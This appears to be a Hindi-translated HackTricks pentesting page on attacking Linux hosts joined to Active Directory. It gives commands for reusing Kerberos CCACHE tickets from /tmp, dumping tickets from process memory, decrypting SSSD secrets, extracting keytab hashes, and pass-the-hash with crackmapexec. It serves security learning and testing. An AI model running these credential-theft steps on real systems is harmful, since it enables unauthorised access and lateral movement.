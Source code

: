 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

एक लिनक्स मशीन भी एक सक्रिय निर्देशिका वातावरण के अंदर मौजूद हो सकती है।

एक AD में लिनक्स मशीन **फाइलों के अंदर विभिन्न CCACHE टिकटों को स्टोर कर सकती है। ये टिकट किसी अन्य kerberos टिकट की तरह उपयोग और दुरुपयोग किए जा सकते हैं**। इन टिकटों को पढ़ने के लिए, आपको टिकट का उपयोगकर्ता मालिक होना चाहिए या मशीन के अंदर **रूट** होना चाहिए।

## Enumeration

### AD enumeration from linux

यदि आपके पास लिनक्स (या विंडोज में बैश) में AD पर पहुंच है, तो आप AD को सूचीबद्ध करने के लिए [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) का प्रयास कर सकते हैं।

आप लिनक्स से AD को सूचीबद्ध करने के **अन्य तरीकों** के लिए निम्नलिखित पृष्ठ की भी जांच कर सकते हैं:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA एक ओपन-सोर्स **वैकल्पिक** है Microsoft Windows **Active Directory** के लिए, मुख्य रूप से **Unix** वातावरण के लिए। यह Active Directory के समान प्रबंधन के लिए एक पूर्ण **LDAP निर्देशिका** को MIT **Kerberos** की कुंजी वितरण केंद्र के साथ जोड़ता है। CA और RA प्रमाणपत्र प्रबंधन के लिए Dogtag **प्रमाणपत्र प्रणाली** का उपयोग करते हुए, यह स्मार्टकार्ड सहित **मल्टी-फैक्टर** प्रमाणीकरण का समर्थन करता है। Unix प्रमाणीकरण प्रक्रियाओं के लिए SSSD एकीकृत है। इसके बारे में अधिक जानें:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## Playing with tickets

### Pass The Ticket

इस पृष्ठ पर आप विभिन्न स्थान पाएंगे जहाँ आप **एक लिनक्स होस्ट के अंदर kerberos टिकट पा सकते हैं**, अगले पृष्ठ पर आप सीख सकते हैं कि इन CCache टिकटों के प्रारूपों को Kirbi (विंडोज में उपयोग करने के लिए आवश्यक प्रारूप) में कैसे परिवर्तित किया जाए और PTT हमले को कैसे किया जाए:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### CCACHE ticket reuse from /tmp

CCACHE फ़ाइलें **Kerberos क्रेडेंशियल्स** को स्टोर करने के लिए बाइनरी प्रारूप हैं जो आमतौर पर `/tmp` में 600 अनुमतियों के साथ संग्रहीत होती हैं। इन फ़ाइलों की पहचान उनके **नाम प्रारूप, `krb5cc_%{uid}`,** द्वारा की जा सकती है, जो उपयोगकर्ता के UID से संबंधित है। प्रमाणीकरण टिकट सत्यापन के लिए, **पर्यावरण चर `KRB5CCNAME`** को इच्छित टिकट फ़ाइल के पथ पर सेट किया जाना चाहिए, जिससे इसका पुन: उपयोग सक्षम हो सके।

प्रमाणीकरण के लिए उपयोग किए जा रहे वर्तमान टिकट को `env | grep KRB5CCNAME` के साथ सूचीबद्ध करें। प्रारूप पोर्टेबल है और टिकट को **पर्यावरण चर सेट करके पुन: उपयोग किया जा सकता है** `export KRB5CCNAME=/tmp/ticket.ccache` के साथ। Kerberos टिकट नाम प्रारूप `krb5cc_%{uid}` है जहाँ uid उपयोगकर्ता UID है।
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE टिकट पुन: उपयोग कीजिए की रिंग से

**प्रक्रिया की मेमोरी में संग्रहीत Kerberos टिकटों को निकाला जा सकता है**, विशेष रूप से जब मशीन की ptrace सुरक्षा अक्षम होती है (`/proc/sys/kernel/yama/ptrace_scope`)। इस उद्देश्य के लिए एक उपयोगी उपकरण [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey) पर पाया जा सकता है, जो सत्रों में इंजेक्ट करके और टिकटों को `/tmp` में डंप करके निकासी को सुविधाजनक बनाता है।

इस उपकरण को कॉन्फ़िगर और उपयोग करने के लिए, नीचे दिए गए चरणों का पालन किया जाता है:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
यह प्रक्रिया विभिन्न सत्रों में इंजेक्ट करने का प्रयास करेगी, सफलता को `/tmp` में `__krb_UID.ccache` नामकरण सम्मेलन के साथ निकाले गए टिकटों को संग्रहीत करके दर्शाएगी।

### CCACHE टिकट पुन: उपयोग SSSD KCM से

SSSD `/var/lib/sss/secrets/secrets.ldb` पथ पर डेटाबेस की एक प्रति बनाए रखता है। संबंधित कुंजी `/var/lib/sss/secrets/.secrets.mkey` पथ पर एक छिपी हुई फ़ाइल के रूप में संग्रहीत होती है। डिफ़ॉल्ट रूप से, कुंजी केवल तब पढ़ी जा सकती है जब आपके पास **root** अनुमतियाँ हों।

\*\*`SSSDKCMExtractor` \*\* को --database और --key पैरामीटर के साथ बुलाने से डेटाबेस को पार्स किया जाएगा और **गुप्त को डिक्रिप्ट** किया जाएगा।
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
**क्रेडेंशियल कैश कर्बेरोस ब्लॉब को एक उपयोगी कर्बेरोस CCache** फ़ाइल में परिवर्तित किया जा सकता है जिसे Mimikatz/Rubeus को पास किया जा सकता है।

### CCACHE टिकट पुन: उपयोग कीजट से
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### Extract accounts from /etc/krb5.keytab

सेवा खाता कुंजी, जो रूट विशेषाधिकारों के साथ काम करने वाली सेवाओं के लिए आवश्यक हैं, सुरक्षित रूप से **`/etc/krb5.keytab`** फ़ाइलों में संग्रहीत होती हैं। ये कुंजी, सेवाओं के लिए पासवर्ड के समान, कड़ी गोपनीयता की मांग करती हैं।

कुंजीपटल फ़ाइल की सामग्री की जांच करने के लिए, **`klist`** का उपयोग किया जा सकता है। यह उपकरण कुंजी विवरण प्रदर्शित करने के लिए डिज़ाइन किया गया है, जिसमें उपयोगकर्ता प्रमाणीकरण के लिए **NT Hash** शामिल है, विशेष रूप से जब कुंजी प्रकार को 23 के रूप में पहचाना जाता है।
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Linux उपयोगकर्ताओं के लिए, **`KeyTabExtract`** RC4 HMAC हैश निकालने की कार्यक्षमता प्रदान करता है, जिसे NTLM हैश पुन: उपयोग के लिए उपयोग किया जा सकता है।
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
macOS पर, **`bifrost`** कुंजीपटल फ़ाइल विश्लेषण के लिए एक उपकरण के रूप में कार्य करता है।
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
निकाली गई खाता और हैश जानकारी का उपयोग करते हुए, **`crackmapexec`** जैसे उपकरणों का उपयोग करके सर्वरों से कनेक्शन स्थापित किए जा सकते हैं।
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## संदर्भ
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

<figure><img src="/..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
